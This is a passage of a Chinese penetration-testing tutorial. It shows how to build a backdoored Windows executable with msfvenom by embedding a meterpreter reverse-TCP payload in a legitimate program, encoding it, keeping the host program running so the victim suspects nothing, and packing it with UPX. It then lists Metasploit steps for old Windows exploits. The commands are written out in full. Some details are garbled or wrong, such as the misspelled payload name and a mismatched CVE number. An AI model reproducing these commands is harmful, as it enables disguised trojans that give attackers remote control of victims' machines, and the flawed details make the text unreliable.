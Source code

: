 ### 自定义可执行文件模板

默认模板位于 data/msfpayload/template.exe 下，msfvenom 支持使用-x 选项使用任意的 windows 可执行程序来代替默认模板文件

```bash
msfvenom -p windows/meterpreter/revers_tcp -x muban.exe -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.108 LPORT=443 -f exe -o /root/backdoor.exe
```

### 隐秘启动一个攻击载荷

大多数情况下，当被估计的用户运行类似前面生成的包含后门的可执行文件时，如果什么也没发生会引起用户的怀疑。所以在启动攻击载荷的同时，可以让宿主程序页正常运行起来。

使用 msfvenom 的-k 选项，使攻击载荷在一个独立的线程中启动，这样宿主程序在执行时不会受到影响

```bash
msfvenom -p windows/meterpreter/revers_tcp -x muban.exe -e x86/shikata_ga_nai -i 5 -b '\x00' LHOST=192.168.1.108 LPORT=443 -f exe -k -o /root/backdoor.exe
```

-k 选项不一定能用在所有可执行程序上，所以要先确认

最好使用图形界面的程序。如果用命令行程序，会在目标主机上显示一个命令行窗口，这个窗口指导攻击载荷使用完毕才会消失。

### 加壳软件

这是一类对可执行文件进行加密压缩并将解压代码嵌入其中的工具。

kali 中最受欢迎的是 UPX 加壳软件

```bash
upx -5 payload.exe -q
```

# 漏洞利用

## windows 系统

### 远程溢出漏洞—CVE-2012-0002

```bash
search CVE-2012-0002
use ...
show options
set ...
exploit
```

### MS11-003(CVE-2001-0036)

### MS03-026(CVE-2003-0352)

### IE 浏览器的激光漏洞利用 (use exploit/windows/browser/ms10_002_aurora)
